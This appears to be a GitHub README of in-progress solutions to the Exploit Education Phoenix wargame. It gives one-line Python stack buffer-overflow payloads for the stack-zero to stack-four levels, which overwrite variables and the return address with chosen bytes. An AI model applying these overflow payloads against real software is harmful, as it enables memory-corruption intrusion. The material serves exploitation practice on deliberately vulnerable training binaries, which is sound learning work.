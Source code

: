 # ExploitEducation Phoenix

*Binary exploit challenges from **[Phoenix](https://exploit.education/phoenix/)***
## Payloads
*\* Still in progress*
- stack-zero:
```
    $ python -c "print 'A' * 64 + 'hehe'" | ./stack-zero
```
- stack-one:
```
    $ ./stack-one $(python -c "print 'A' * 64 + '\x62\x59\x6c\x49'")
```
- stack-two:
```
    $ env ExploitEducation="$(python -c "print 'A' * 64 + '\x0a\x09\x0a\x0d'")" ./stack-two
```
- stack-three:
```
    $ python -c "print 'A' * 64 + '\x9d\x06\x40\x00\x00\x00\x00\x00'" | ./stack-three
```
- stack-four:
```
    $ python -c "print 'A' * 0x50 + 'B' * 8 + '\x1d\x06\x40'" # 88 bytes of stack frame then RIP
```

